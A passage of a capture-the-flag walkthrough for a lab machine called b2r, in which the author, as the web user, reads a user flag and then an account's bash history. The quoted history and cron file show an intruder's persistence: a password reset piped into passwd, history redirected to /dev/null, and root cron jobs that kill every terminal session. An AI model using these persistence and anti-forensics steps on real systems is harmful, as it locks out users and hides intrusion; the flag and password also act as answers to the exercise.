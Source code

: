 Navigate to `/home/lachlan` directory and get flag

```tsx
www-data@b2r:/var/www/html/cvs$ cd /home
cd /home
www-data@b2r:/home$ cd lachlan
cd lachlan
www-data@b2r:/home/lachlan$ cat user.txt
cat user.txt
thm{af7e46b68081d4025c5ce10851430617}
```

# Privilege Escalation → lachlan

Navigate to `/home/lachlan` directory and view the hidden file `.bash_history`

```tsx
www-data@b2r:/home/lachlan$ cat .bash_history 
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

The hacker has changed the password

This is a little bit tricky here! Notice on the `echo` line which has changed the password → The real password is after the `\n` which is the symbol stands for newline

```tsx
www-data@b2r:/home/lachlan$ cat /etc/cron.d/persistence                                                             
cat /etc/cron.d/persistence                                                                                         
PATH=/home/lachlan/bin:/bin:/usr/bin                                              
# * * * * * root backup.sh                                                                                          
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done                                                                                                            
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done                                                                                                            
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done                                                                                                            
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done                                                                                                            
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done                                                                                                            
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```
